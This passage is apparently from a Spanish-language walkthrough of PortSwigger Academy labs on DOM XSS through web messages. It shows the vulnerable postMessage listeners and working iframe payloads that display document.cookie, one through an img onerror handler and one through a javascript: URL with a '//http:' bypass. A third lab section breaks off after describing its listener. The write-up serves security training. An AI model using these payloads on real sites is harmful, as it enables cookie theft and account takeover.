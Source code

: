 En este laboratorio el sitio vulnerable tiene un event listener `message` con el siguiente código, el cual carga todo el contenido del mensaje en un `div` con id `ads`:

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Para resolver el laboratorio, se debe cargar en el exploit server un `iframe`, que al ser cargado envía un web message a la home del sitio vulnerable. El event listener inserta el contenido (es decir, una imagen) en `ads`. Como la imagen tiene un `src` inválido, se ejecuta el handler `onerror`, que muestra las cookies.

```
<iframe src="https://id-del-laboratorio.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">
```

### [DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

La home del sitio vulnerable tiene el siguiente event listener, que evalúa si en cualquier parte (no sólo al comienzo) del mensaje está el substring `"http:"` o `"https:"`. En caso afirmativo, lo guarda en `location.href`

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Para resolver el laboratorio se carga en el exploit server un `iframe` que envíe un mensaje que alerte las cookies mediante Javascript, pero al final del mismo se agrega un comentario y la palabra `http:`. Esto hará que se cumpla la condición del event listener, y al mismo tiempo no dará ningún error de sintaxis.

```
<iframe src="https://id-del-laboratorio.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','*')">
```

### [DOM XSS using web messages and `JSON.parse`](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

El sitio vulnerable tiene un event listener que espera recibir un string que es parseado con `JSON.parse()`. En el objeto parseado se espera que haya una propiedad `type` que es evaluada en un `switch`, y en caso de que tenga el valor `'load-channel'` se cambia el `src` del `iframe` al valor de la propiedad `url` del mismo objeto.
